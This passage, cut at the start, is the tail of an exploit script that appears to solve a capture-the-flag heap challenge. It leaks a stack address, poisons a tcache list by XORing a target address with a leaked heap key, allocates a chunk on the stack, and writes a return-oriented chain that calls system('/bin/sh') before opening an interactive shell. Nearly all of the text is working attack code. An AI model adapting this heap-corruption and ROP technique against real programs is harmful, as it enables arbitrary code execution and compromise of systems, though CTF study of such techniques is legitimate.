    ),
)
input_uri(4, 0x100 - 0x10, b"aaa")
input_uri(8, 0x100 - 0x10, b"a" * 0x10)
show(8)
ru(b"a" * 0x10)
stack_base = u64_ex(rn(6)) - 0x158
lg("stack_base", stack_base)

delet(4)
delet(3)
input_uri(
    3,
    0x68,
    flat(
        {
            0x18: [
                0x101,
                heap_key ^ (stack_base),
            ],
        }
    ),
)
input_uri(4, 0x100 - 0x10, b"aaa")

pop_rdi_ret = libc_base + 0x000000000002A3E5
input_uri(
    9,
    0x100 - 0x10,
    flat(
        [
            0xDEADBEEF,
            pop_rdi_ret + 1,
            pop_rdi_ret,
            libc_base + next(libc.search(b"/bin/sh\x00")),
            libc_base + libc.sym.system,
        ]
    ),
)

ia()
```
